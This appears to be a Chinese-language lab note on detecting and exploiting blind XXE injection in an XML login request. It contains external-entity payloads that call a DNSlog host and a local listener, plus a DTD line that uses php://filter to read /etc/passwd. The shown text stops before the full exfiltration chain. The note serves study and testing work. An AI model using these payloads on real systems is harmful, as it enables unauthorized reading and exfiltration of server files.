



---
tags:
  - XXE
  - XML
  - WEB
Date: 2026-01-05
---
# 首先查看漏洞是否存在
## DNSlog查看漏洞

首先正常的尝试外部实体调用


可以看到无回显

### 利用参数实体结合http伪协议插入DNS查询
利用yakit自带的dnslog反链服务开启

```XML
<!DOCTYPE root [<!ENTITY % sky SYSTEM "http://egyyjxconj.iyhc.eu.org"> %sky;]>

<user><username>&guc;</username><password>123</password></user>
```
定义参数实体后去SYSTEM到反连地址进行DNSLog解析


 可以看到请求类型

### 也可以访问本地ip



用nc监听也可以判断
并且能够获取到外带地址
```XML
<!DOCTYPE root [<!ENTITY % sky SYSTEM "http://172.28.222.35:7777/test"> %sky;]>
```

```bash
GET /test HTTP/1.0
Host: 172.28.222.35:7777
Connection: close
```

### 错误示范



原因：内部DTD禁止参数实体内部再次调用参数实体

但是外部DTD可以重复调用参数实体
因此需要利用外部实体



首先在1.dtd写好嵌套php伪协议的file协议读取/passwd
```dtd
<!ENTITY guc SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
```
然后再定义一段